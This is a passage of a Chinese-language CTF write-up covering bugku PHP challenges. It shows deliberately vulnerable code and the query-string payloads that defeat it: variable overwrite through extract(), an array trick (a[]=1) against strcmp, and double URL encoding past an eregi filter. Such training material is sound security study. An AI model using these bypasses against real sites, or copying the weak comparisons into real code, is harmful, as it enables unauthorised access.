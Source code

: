extract()会把符号表中已存在的变量名的值替换掉，将flag变量的值赋给名为content变量，如果变量shiyan和变量content的值相同，就输出flag的值

payload： ?shiyan=&flag=

## strcmp比较字符串（bugku）

```
<?php
$flag = "flag{xxxxx}";
if (isset($_GET['a'])) {
if (strcmp($_GET['a'], $flag) == 0) //如果 str1 小于 str2 返回 < 0； 如果 str1大于 str2返回 > 0；如果两者相等，返回 0。
//比较两个字符串（区分大小写）
die('Flag: '.$flag);
else
print 'No';
}
?>
```
构造数组绕过strcmp比较大小

payload: ?a[]=1

## urldecode二次编码绕过(bugku)

```
<?php
if(eregi("hackerDJ",$_GET[id])) {
    echo("not allowed!");
    exit();
}
$_GET[id] = urldecode($_GET[id]);
if($_GET[id] == "hackerDJ")
{
echo "Access granted!";
echo "flag";
}
?>
```
eregi字符串比对解析，与大小写无关。利用两次urldecode第一次是浏览器的解码第二次是函数的解码,

payload: ?id=hacker%2544J

## md5()函数(bugku)

```
<?php
error_reporting(0);
$flag = 'flag{test}';
if (isset($_GET['username']) and isset($_GET['password'])) {
if ($_GET['username'] == $_GET['password'])
    print 'Your password can not be your username.';
else if (md5($_GET['username']) === md5($_GET['password']))
    die('Flag: '.$flag);
else print 'Invalid password';
}
?>
```
